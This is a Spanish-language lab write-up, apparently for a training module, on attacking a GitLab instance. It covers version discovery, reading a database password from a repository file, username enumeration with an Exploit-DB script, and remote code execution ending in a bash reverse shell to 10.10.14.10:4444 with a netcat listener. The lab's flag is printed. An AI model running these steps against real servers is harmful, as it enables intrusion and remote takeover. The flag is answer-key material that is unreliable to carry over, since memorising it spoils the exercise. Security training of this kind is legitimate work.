

# Laboratorio: GitLab 🐱

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
---
2. Creamos una cuenta con datos al azar, después de esto visitamos el directorio `/help` y podremos ver la versión de **GitLab** que se usa.

<p align="center">
    
</p>

---

3. Ahora vamos `/explore` y vamos al siguiente repositorio

<p align="center">
    
</p>

---

4. Una vez en el repositorio anterior leemos el contenido del archivo **`phpunit_pgsql.xml`** en el cual veremos la contraseña de la **base de datos PostgreSQL**

* `phpunit_pgsql.xml`
```xml
<SNIP>
    <var name="db_password" value="postgres"/>
<SNIP>
```

---

# Laboraotorio: Attacking GitLab 🐱‍👤

1. Usaremos el script [user_enum.sh](https://www.exploit-db.com/exploits/49821) y el diccionario `/opt/useful/SecLists/Usernames/cirt-default-usernames.txt`
* `./gitlab.sh --url http://gitlab.inlanefreight.local:8081/ --userlist /opt/useful/SecLists/Usernames/cirt-default-usernames.txt`

**Output**
```python
<SNIP>
[+] The username DEMO exists!
<SNIP>
```

---

2. Para lograr un **RCE** primero crearemos una cuenta, y después usaremos [exploit.py](https://www.exploit-db.com/exploits/49951)

* Nos ponemos en escucha con **`nc -lvnp 4444`**
* `python3 rce.py -u [User] -p [Password] -c "bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'" -t http://gitlab.inlanefreight.local:8081`

---

3. Ahora leemos la **flag** 🏴
```bash
git@app04:~/gitlab-workhorse$ cat flag_gitlab.txt
s3cure_y0ur_Rep0s!
```